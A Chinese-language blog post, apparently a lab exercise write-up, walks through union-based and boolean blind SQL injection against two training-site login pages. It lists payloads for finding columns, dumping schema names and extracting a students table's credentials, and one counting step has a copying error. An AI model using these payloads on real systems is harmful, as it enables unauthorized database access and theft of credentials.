 ```yaml
---
title: 联合注入攻击
categories: 
- 渗透测试
tags: 
- 漏洞复现
- SQL注入
- WEB安全
comments: true
---
```




# 任务1------对http://yun.xxxxx.com:40008/login.html进行联合注入攻击

步骤如下：

- 判断注入点是否存在
- 判断字段
- 判断输出位置
- 爆库名
- 爆表名
- 爆字段名
- 获取students表中的数据

<!-- more -->

## 1.判断注入点是否存在
	步骤如下：
		1.在用户名栏输入1'				// 报数据库查询出错
		2.在用户名栏输入1' or 1=1 -- 	// 正常登陆
		3.在用户名栏输入1' or 1=2 --	// 出错
	由此判断该处user参数为注入点
## 2.判断字段
	步骤如下：
		1.在用户名栏输入1' or 1=1 order by 1 -- 	//登陆成功
		2.在用户名栏输入1' or 1=1 order by 2 --		//登陆成功
		3.在用户名栏输入1' or 1=1 order by 3 --		//登陆成功
		4.在用户名栏输入1' or 1=1 order by 4 --		//报数据库查询出错
	由此判断字段数为3
## 3.判断输出位置
	步骤如下：
		1.在用户名栏输入1'  union select 1,2,3 -- //页面输出一个二
	由此判断输出位置为2
## 4.爆库名
	步骤如下：
		1.在用户名栏输入1' union select 1,database(),3 -- //输出数据库名为grade
	*******************************************************************************
	*******************************************************************************
	*******************************************************************************
	以下步骤因为输入框存在输入长度限制，且http请求方式为post方式，因此使用了火狐插件tamperdata进行抓包以及修改post请求参数。
## 5.爆表名
	步骤如下：
		1.在tamperdata输入1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='grade'),3-- 
		//成功爆出表名为admins,classes,english,networks,students,teachers
## 6.爆字段名
	步骤如下：
		1.在tamperdata输入1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='students'),3-- 	
		//成功爆出字段名为id,name,pass
## 7.获取students表中的数据
	步骤如下：
		1.在tamperdata输入1' union select 1,(select group_concat(id,name,pass) from grade.students),3 -- 
		//成功爆出数据为
		3001yizyi001,
		3002erzer002,
		3003sanzsan003,
		3004sizsi004,
		3005wuzwu005,
		3006liuzliu006,
		3007qizqi007,
		3008bazba008,
		3009jiuzjiu009,
		3010shizshi010
# 拓展任务------对http://yun.zhiliaotang.com:40006/userlogin.php 进行sql盲注（基于布尔的盲注）
步骤如下：
## 1.判断注入点是否存在，是字符型还是数字型
	步骤如下：
	1.在用户名栏输入1'							//提示登陆失败
	2.在用户名栏输入1' or 1=1#					//登陆成功
	3.在用户名栏输入1' or 1=2#					//提示登陆失败
	由此判断该处存在典型的sql盲注，且是字符型。
## 2.猜解当前数据库名称长度
	步骤如下：
	1.在用户名栏输入1' or length(database())=1 #
	2.在用户名栏输入1' or length(database())=2 #
	3.在用户名栏输入1' or length(database())=3 #
	4.在用户名栏输入1' or length(database())=4 #
					`
			登陆	`	失败
					`
					`
	9.在用户名栏输入1' or length(database())=9 #	登陆成功
	由此判断当前数据库名称长度为9.
## 3.猜解当前数据库名（这里采用二分法猜解数据库名）
	1.在用户名栏输入1' or ascii(substr(database(),1,1))>97#	登陆成功
	2.在用户名栏输入1' or ascii(substr(database(),1,1))<97#	登陆失败
	3.在用户名栏输入1' or ascii(substr(database(),1,1))>110#登陆失败
	4.在用户名栏输入1' or ascii(substr(database(),1,1))<110#登陆成功
	5.在用户名栏输入1' or ascii(substr(database(),1,1))>103#登陆失败
	6.在用户名栏输入1' or ascii(substr(database(),1,1))<103#登陆失败
	说明当前数据库的第一个字母为g
	重复上述步骤可以获取到完整的数据库名称为guestbook
	*******************************************************************************
	*******************************************************************************
	*******************************************************************************
	以下步骤因为输入框存在输入长度限制，且http请求方式为post方式，因此使用了火狐插件tamperdata进行抓包以及修改post请求参数。
## 4.猜解数据库中的表名
	4.1首先猜解数据库中表的数量：
		4.1.1.在用户名栏输入1’ or (select count (table_name) from information_schema.tables where table_schema=database())=1 # //登陆失败
		4.1.2.在用户名栏输入1’ or (select count (table_name) from information_schema.tables where table_schema=database())=1 # //登陆成功
		说明当前数据库有两个表
	4.2接着猜解每个表的名称（任然使用二分法）
		4.2.1.猜解表的表长度
			1).在用户名栏输入1’ or length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1# 登陆失败
			重复上述步骤，获得表的长度为7和4
		4.2.2.猜解表名（二分法）
			1).在用户名栏输入1’ or ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #登陆成功
			重复上述步骤可以获取到完整的表名为message和user
## 5.猜解表中的字段名
	和猜解表明类似，不再赘述。